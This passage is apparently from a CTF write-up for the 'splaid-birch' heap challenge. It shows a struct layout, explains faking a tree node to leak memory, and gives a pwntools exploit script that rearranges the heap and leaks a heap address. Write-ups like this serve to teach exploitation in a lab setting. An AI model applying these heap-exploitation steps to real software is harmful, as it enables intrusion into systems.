 ```assembly
00000008 lnode           dq ?                    ; offset
00000010 rnode           dq ?                    ; offset
00000018 sum2            dq ?
00000020 btnode          ends
```

In order to make it not crash, we don't want this faked structure to get into complicated algorithm, so we want it to return from `sub_894` directly, that is to make `parent == null`, which is to make `[p + 0x28] == nullptr`. Also, since it will print the value of `var3`, we want `[p + 8] == address_we_want_to_leak`.

I think the comments in exploit explain my method well :)

```python
from pwn import *

g_local=True
context(log_level='debug', arch='amd64')
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

if g_local:
	sh = process("./splaid-birch", env={'LD_PRELOAD':'./libsplaid.so.1'})
	gdb.attach(sh)
else:
	sh = remote("splaid-birch.pwni.ng", 17579)

sendnum = lambda x: sh.sendline(str(x & 0xffffffffffffffff)) 
recvnum = lambda : int(sh.recvuntil('\n'), 10)

def add(v2, v3=0):
	sendnum(5)
	sendnum(v2)
	sendnum(v3)

def select(idx):
	sendnum(4)
	sendnum(idx)
	return recvnum()

def delete(v2):
	sendnum(1)
	sendnum(v2)

#0. prepare
add(3,0)
add(-0x28, 1) #used to clear root by producing nullptr(not useful)
add(2,0)

#rearrange heap
delete(3)
delete(2)
delete(-0x28)
add(3,0)
add(-0x28, 1)
add(2,0)

#1. leak heap
#find a pointer in the heap such that
#	[p + 0x28] == nullptr
#	[p + 8] == heap addr
#that is pointer to btnode with lnode not null
# => p == 0x555555758398
heap_addr = select(0x10a8/8) - 0x1348
print hex(heap_addr)
```
